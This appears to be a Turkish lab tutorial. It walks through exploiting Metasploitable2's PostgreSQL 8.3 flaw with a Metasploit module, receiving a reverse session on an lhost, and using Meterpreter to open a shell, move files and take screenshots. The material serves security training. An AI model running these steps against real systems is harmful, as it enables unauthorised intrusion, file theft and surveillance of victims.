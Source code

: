 Metasploitable2’deki PostgreSQL'in DB 8.3.0 - 8.3.7 sürümünde, **internet araması** ile tespit edilebilen bir güvenlik açığı bulunur.  
Genellikle ilk sonuçlarda **Rapid7** tarafından hazırlanmış bir **Metasploit modülü** yer alır.

---

## 🚀 Exploit Kullanımı (Metasploit Framework)

1. **Metasploit Framework’ü başlat**  
    Bu komut ile Metasploit konsolunu açıyoruz.

```bash
msfconsole
```

2. **Açığı kullanacak modülü seç**  
    Burada PostgreSQL exploit modülünü yüklüyoruz.

```bash
use exploit/linux/postgres/postgres_payload
```

3. **Hedef ve gerekli parametreleri ayarla**
    - `show targets` → Hedef türlerini gösterir
    - `set target 0` → Varsayılan hedefi seçer
    - `show options` → Modülün mevcut ayarlarını listeler
    - `set rhosts <target ip>` → Hedef IP adresini ayarlar
    - `set lhosts <client ip>` → Bilgilerin geleceği IP adresini ayarlar

```bash
show targets
set target 0
show options
set rhosts <target ip>
show options
set lhosts <client ip>
```

4. **Exploit’i çalıştır**
    - `-j` → Arka planda (background) çalıştırır
    - `-z` → Oturumu otomatik olarak kapatmaz

```bash
exploit -j -z
```

5. **Oturumları görüntüle ve bağlan**
    - `sessions -l` → Açık tüm oturumları listeler
    - `sessions 1` → 1 numaralı oturuma bağlanır

```bash
sessions -l
sessions 1
```

6. **İşlem bittiğinde çıkış yap**
    - `background` → Oturumu arka plana alır
    - `exit` → Metasploit’ten çıkar

```bash
background
exit
```

---

⚠️ **Not:** Bu işlem yalnızca **laboratuvar ortamında** ve **izinli sistemlerde** yapılmalıdır.  
Aksi halde **yasal sorunlar** doğurabilir! 🚫

---

## 🛠️ Meterpreter Kullanımı

- **Meterpreter**, Metasploit Framework ile elde edilen bir oturum türüdür.  
- Hedef cihaza bağlanıldığında, bu oturum üzerinden **dosya yönetimi, komut çalıştırma, ağ taraması, şifre bilgisi çıkarma** gibi çok sayıda işlem yapılabilir.  
- Tüm komutların listesi için:  
```bash
meterpreter --help
```

---

### 📜 Temel Komutlar ve Açıklamaları

1. **Hedef sistem bilgilerini öğrenme**  
```bash
sysinfo
```
Hedef işletim sistemi, mimarisi, bilgisayar adı gibi bilgileri gösterir.

2. **Komut satırı açma**  
```bash
shell
```
Hedefte klasik bir sistem kabuğu (cmd, bash vb.) açar.

3. **Dosya sistemi gezme**  
```bash
ls
cd <klasör_yolu>
```
`ls` → bulunduğun dizindeki dosyaları listeler.  
`cd` → klasör değiştirir.

4. **Dosya indirme ve yükleme**  
```bash
download <hedef_dosya_yolu>
upload <yerel_dosya_yolu>
```
Hedeften yerel makineye dosya indirir veya yerelden hedefe dosya yükler.

5. **Ekran görüntüsü alma**  
```bash
screenshot
```
Hedef cihazın o anki ekran görüntüsünü kaydeder.

6. **Ağ bağlantılarını görüntüleme**  
```bash
netstat
```
Hedef sistemdeki açık portlar ve ağ bağlantılarını gösterir.

7. **Oturumu sonlandırma**  
```bash
exit
```
Meterpreter oturumunu kapatır.

---

⚠️ **Uyarı:** Bu işlemler yalnızca **izinli test ortamlarında** yapılmalıdır.  
Yetkisiz kullanım **yasal suçtur**! 🚫
